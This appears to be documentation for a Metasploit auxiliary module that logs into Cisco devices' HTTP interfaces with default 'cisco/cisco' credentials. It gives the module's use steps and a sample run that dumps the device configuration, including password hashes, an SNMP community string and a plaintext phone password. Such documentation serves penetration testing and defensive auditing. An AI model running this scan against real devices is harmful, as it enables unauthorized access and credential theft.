 ## Description

  This module scans for the presence of the HTTP interface for a cisco device and attempts to enumerate it using basic authentication.

## Vulnerable Application

  Any Cisco networking device with the HTTP interface turned on.

## Verification Steps

  1. Enable the web interface on a cisco device `ip http server`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/cisco_device_manager```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```run```

## Options

  **HttpUsername**

  Username to use for basic authentication.  Default value is `cisco`

  **HttpPassword**

  Password to use for basic authentication.  Default value is `cisco`

## Scenarios

### Tested on Cisco UC520-8U-4FXO-K9 running IOS 12.4

  ```
  msf > use auxiliary/scanner/http/cisco_device_manager 
  msf auxiliary(scanner/http/cisco_device_manager) > set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  msf auxiliary(scanner/http/cisco_device_manager) > set vebose true
  vebose => true
  msf auxiliary(scanner/http/cisco_device_manager) > run
  
  [+] 2.2.2.2:80 Successfully authenticated to this device
  [+] 2.2.2.2:80 Processing the configuration file...
  [+] 2.2.2.2:80 MD5 Encrypted Enable Password: $1$TF.y$3E7pZ2szVvQw5JG8SDjNa1
  [+] 2.2.2.2:80 Username 'cisco' with MD5 Encrypted Password: $1$DaqN$iP32E5WcOOui/H66R63QB0
  [+] 2.2.2.2:80 SNMP Community (RO): public
  [+] 2.2.2.2:80 ePhone Username 'phoneone' with Password: 111111
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
